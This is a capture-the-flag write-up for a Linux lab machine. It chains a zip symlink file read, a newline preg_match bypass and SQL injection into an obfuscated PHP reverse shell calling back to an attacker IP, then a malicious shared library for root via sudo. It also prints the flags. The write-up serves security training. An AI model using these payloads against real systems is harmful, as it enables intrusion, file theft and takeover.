


### Description:

This machine is based on Linux. The first step is a web application that is vulnerable to the zip symlink attack. We can use this attack to download multiple interesting files of the website. Then we use an SQLi to write a reverse shell on the server to get the user flag. For the root flag, it consists of using a binary with sudo. With a bit of reversing the binary, we write a malicious file and compile it so it can be used by the binary.

### Difficulty:

`medium`

### Flags:

User: `712dfbfb07cf4871cf4e42e1bb42b1d7`

Root: `db0872260ca31c785a93a40dcb9c012d`

# Enumeration

| Port | Service |
| ---- | ------- |
| 22 | ssh |
| 80 | http |
|

The only services on the machine are `ssh` and `http`, which means there is a website and we can possibly connect with ssh later on.

# Foothold

Let's inspect the website to see what is available.  
There are basically two functionalities:
- File upload that requires a zip file with a PDF inside.
- Add products to cart.

About the tech stack of the website, we don't have much information apart from the `Apache` header.  

Let's see if we can discover some directories with bruteforcing.

```bash
gobuster dir -u http://10.10.11.229/shop -w  /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --no-error -t 40
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.229/shop
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.229/assets/]
/index.php            (Status: 200) [Size: 16738]
/server-status        (Status: 403) [Size: 277]
/shop                 (Status: 301) [Size: 311] [--> http://10.10.11.229/shop/]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.11.229/uploads/]
Progress: 4723 / 4724 (99.98%)
===============================================================
Finished
```
Nothing we haven't seen on the website.

Let's try to upload a PDF inside a Zip to the website.

```bash
zip test.zip test.pdf
```
The website indicates us that the file is stored at the following location: `uploads/[md5 of zip]/[filename.pdf]`

We can then access the pdf by going to this link.

It also indicates that the zip is being unzipped. That can be useful to perform an attack.

The filtering about the upload seems to be done by the extension, as uploading a valid zip file but renaming the extension before upload leads to an error.

A known attack about a zip file containing a PDF is the zip symlink attack, which consists of a zipfile that contains a symbolik link from a PDF file to a system file. When that zip file is unzipped, the PDF file will link to the system file that we want (example: `/etc/passwd`).

In our case, when the website will unzip the file and display the PDF inside, it should display the system file we want. Let's see if it works.

```sh
ln -s /etc/passwd sym.pdf

zip --symlinks test.zip sym.pdf
```

Now that we have our zip file, we have to upload it and retrieve the result.  
As the result is not visible since it's not a PDF, we can just download it and open with a text editor.

```
cat sym.pdf

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:104:110:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
rektsu:x:1001:1001::/home/rektsu:/bin/bash
mysql:x:107:115:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:999:999::/var/log/laurel:/bin/false
```

Perfect! Our exploit works correctly. Let's try to find interesting files to read now. Starting with `upload.php` and `shop/product.php`.

```php
# upload.php
[snip]

if(isset($_POST['submit'])) {
  // Get the uploaded zip file
  $zipFile = $_FILES['zipFile']['tmp_name'];
  if ($_FILES["zipFile"]["size"] > 300000) {
    echo "<p>File size must be less than 300,000 bytes.</p>";
  } else {
    // Create an md5 hash of the zip file
    $fileHash = md5_file($zipFile);
    // Create a new directory for the extracted files
    $uploadDir = "uploads/$fileHash/";
$tmpDir = sys_get_temp_dir();
    // Extract the files from the zip
    $zip = new ZipArchive;
    if ($zip->open($zipFile) === true) {
      if ($zip->count() > 1) {
      echo '<p>Please include a single PDF file in the archive.<p>';
      } else {
      // Get the name of the compressed file
      $fileName = $zip->getNameIndex(0);
      if (pathinfo($fileName, PATHINFO_EXTENSION) === "pdf") {
        $uploadPath = $tmpDir.'/'.$uploadDir;
        echo exec('7z e '.$zipFile. ' -o' .$uploadPath. '>/dev/null');
        if (file_exists($uploadPath.$fileName)) {
          mkdir($uploadDir);
          rename($uploadPath.$fileName, $uploadDir.$fileName);
        }
        echo '<p>File successfully uploaded and unzipped, a staff member will review your resume as soon as possible. Make sure it has been uploaded correctly by accessing the following path:</p><a href="'.$uploadDir.$fileName.'">'.$uploadDir.$fileName.'</a>'.'</p>';
      } else {
        echo "<p>The unzipped file must have  a .pdf extension.</p>";
      }
      }
    } else {
      echo "Error uploading file.";
    }

  }
}

[snip]
```
As we can see in the snippet of code above, our assumption about the filtering being by extension is correct.

But we need more information to continue our exploitation. Fortunately for us, the code below has a function that can be bypass: `preg_match()`  
To bypass this check you could send the value with new-lines urlencoded (`%0A`). Which will lead to an SQLi because of the SQL statement that is not protected at all after the `preg_match()`.

```php
# shop/product.php
[snip]

if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $id, $match)) {
        header('Location: index.php');
} else {
        $stmt = $pdo->prepare("SELECT * FROM products WHERE id = '$id'");
    
[snip]
```

Now let's look at the second functionality of the website, the adding of a product to the cart.

By looking through burp while doing the request on the website, we can see the following:


It turns out that the `product_id` is vulnerable to a SQLi.  
With combining a SQLi and the `preg_match()` bypass we saw earlier, we might be able to write a reverse shell on the machine.

```sh
# test trigger SQLi
1%0a'%3bselect+sleep(5)%3b--1
```
```sh
# step 1
# write a revshell
bash -c 'bash -i >& /dev/tcp/10.10.16.48/4444 0>&1'
```
```sh
# step 2
# base64 encode it twice to avoid + 
WW1GemFDQXRZeUFuWW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4Tmk0ME9DODBORFEwSURBK0pqRW4=
```
```sh
# step 3
# write the php revshell
<?php exec("echo WW1GemFDQXRZeUFuWW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4Tmk0ME9DODBORFEwSURBK0pqRW4= | base64 -d | base64 -d | bash"); ?>
```
```sh
# step 4
# payload to pass into burp
1%0a';select '<?php exec("echo WW1GemFDQXRZeUFuWW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4Tmk0ME9DODBORFEwSURBK0pqRW4= | base64 -d | base64 -d | bash"); ?>' into outfile '/var/lib/mysql/revshell.php';--1
```
```sh
# step 5
# dont forget to URL encode it and base64 encode the rev shell
1%0a'%3bselect+'<%3fphp+exec("echo+WW1GemFDQXRZeUFuWW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4Tmk0ME9DODBORFEwSURBK0pqRW4%3d+|+base64+-d+|+base64+-d+|+bash")%3b+%3f>'+into+outfile+'/var/lib/mysql/revshell.php'%3b--1
```
```sh
# our payload unencoded would look like this
# the base64 part is the reverse shell
1%0a'; '<?php exec("echo WW1GemFDQXRZeUFuWW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4Tmk0ME9DODBORFEwSURBK0pqRW4= | base64 -d | base64 -d | bash"); ?>' into outfile '/var/lib/mysql/revshell.php';--1
```

We now have our reverse shell as `rektsu` on the machine, next step is to get the user flag.

```sh
(remote) rektsu@zipping:/var/www/html/shop$ id
uid=1001(rektsu) gid=1001(rektsu) groups=1001(rektsu)

(remote) rektsu@zipping:/var/www/html/shop$ cat ~/user.txt
712dfbfb07cf4871cf4e42e1bb42b1d7
```

# Privilege Escalation

First thing we are checking is if we can run binaries with `sudo` to escalate our privileges. It turns out that we can use the `stock` binary with `sudo`.

```sh
(remote) rektsu@zipping:/var/www/html/shop$ sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

If we try to run the program, it asks for a password. Running it with `sudo` doesn't change the outcome.

```sh
(remote) rektsu@zipping:/var/www/html/shop$ stock
Enter the password: admin
Invalid password, please try again.

(remote) rektsu@zipping:/var/www/html/shop$ sudo stock
Enter the password: admin
Invalid password, please try again.
```

By running `strings` on the binary to see if there is interesting things, we see the string `St0ckM4anager`.

Let's try to enter this as password:

```sh
(remote) rektsu@zipping:/var/www/html/shop$ stock
Enter the password: St0ckM4anager

================== Menu ==================

1) See the stock
2) Edit the stock
3) Exit the program

Select an option:
```

Now that we have the password for the binary, we will use `strace` on it.

```
[snip]

write(1, "Enter the password: ", 20Enter the password: )    = 20
read(0, St0ckM4nager
"St0ckM4nager\n", 1024)         = 13
openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)

[snip]
```

There is a call to `libcounter.so` that fails because it does not exists.  
What if we can build our own malicious `libcounter.so` and escalate our privileges with it?

A `.so` file is a shared object linked during the runtime after the creation of your .o file -o option in gcc. The advantage for us, is that we don't need to recompile the `stock` binary to use our own `libcounter.so`, we will just link it `libcounter.c`.

Our malicious `libcounter.so` will look like this, it opens a bash as root after the `stock` binary is finished.

```c
#include <unistd.h>

void begin (void) __attribute__((destructor));

void begin (void) {
    system("bash -p");
}
```

We have to compile it and then running the `stock` binary with `sudo`.

```sh
(remote) rektsu@zipping:/home/rektsu/.config$ gcc -shared -o libcounter.so -fPIC libcounter.c

(remote) rektsu@zipping:/home/rektsu/.config$ sudo /usr/bin/stock 
Enter the password: St0ckM4nager

================== Menu ==================

1) See the stock
2) Edit the stock
3) Exit the program

Select an option: 3

root@zipping:/home/rektsu/.config# id
uid=0(root) gid=0(root) groups=0(root)

root@zipping:/home/rektsu/.config# cat /root/root.txt
db0872260ca31c785a93a40dcb9c012d
```